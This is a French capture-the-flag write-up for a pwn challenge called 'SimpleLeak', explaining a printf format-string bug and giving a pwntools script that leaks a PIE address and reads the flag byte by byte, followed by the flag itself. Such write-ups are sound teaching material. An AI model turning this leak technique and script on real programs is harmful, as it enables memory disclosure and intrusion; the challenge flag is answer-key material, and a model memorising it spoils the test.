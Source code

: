 # SimpleLeak
## <u>**CatÃ©gorie**</u>

PWN

## <u>**Description**</u> :

[Noiche] : Hey you, give me your NAME !
[Noiche] : ... If you want to, of course.

FORMAT DU FLAG : Flag donné par le process qui tourne en remote, MCTF{...}

ACCES AU CHALLENGE :

Code source fourni + accès remote

## <u>Hints</u> 

Compiled using no specific flags on an up to date Manjaro. As easy as PIE :)

## <u>Auteur</u> 

Noiche

## <u>Solution</u> :

On remarque tout de suite à la lecture du code que le programme est vulnérable aux format string, puisque printf est utilisé en passant directement la variable.
En leakant quelques valeurs avec par exemple la format string "%x" ou "%lx", on peut déduire qu'il s'agit d'un programme compilé en x64 avec la PIE activée

(notamment en repérant des adresses telles que 0x00005570d3214169 par exemple). La première vulnérabilité de format string permet de leak une adresse de ce style, pour la réutiliser ensuite dans les autres couples fgets/printf.

L'idée est de leak le flag, donc il faut trouver où il se trouve, puisque PIE est activé. Pour ça, on peut essayer de bruteforce ou, mieux, de compiler le code source fourni pour regarder l'offset entre le flag en .data et l'adresse leakée. Même si le faux flag n'est pas de la même taille que le vrai, on devrait pouvoir bruteforce l'écart sans trop de soucis.

Une fois le bon offset trouvé, on peut commencer à leak, cependant printf s'arrête au premier nullbyte rencontré et le flag semble constitué de nullbytes entre chaque caractère. On va donc devoir leak le flag caractère par caractère.

Pour flag, il suffit donc de boucler tant que le caractère leaké n'est pas "}", et d'ajouter 2 à l'adresse à chaque fois (pour sauter le nullbyte et arriver sur le caractère suivant)

Script final :

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "error"

OFFSET = 0x2ef7
step = 0
flag = b""

while True:
   io = process("./SimpleLeak")
   io.recvuntil(b"?")
   io.sendline(b"%17$lx")

   res = io.recvuntil(b"here :")
   leak_pie = int("0x" + res.split(b"\n")[2].decode(), 16)
   flag_loc = leak_pie + OFFSET + step

   payload = p64(flag_loc)
   io.sendline(payload)

   io.recvuntil(b"here :")
   io.sendline(b"%8$s")

   res = io.recvuntil(b"Bye").split(b"\n")[5]
   step += 2
   io.close()

   flag += res

   if b"}" in res:
      break

   sleep(0.3)

print("\n [FLAG] : " + flag.decode())
```

##**Flag : MCTF{Fmt_String_Are_Dangerous!}**
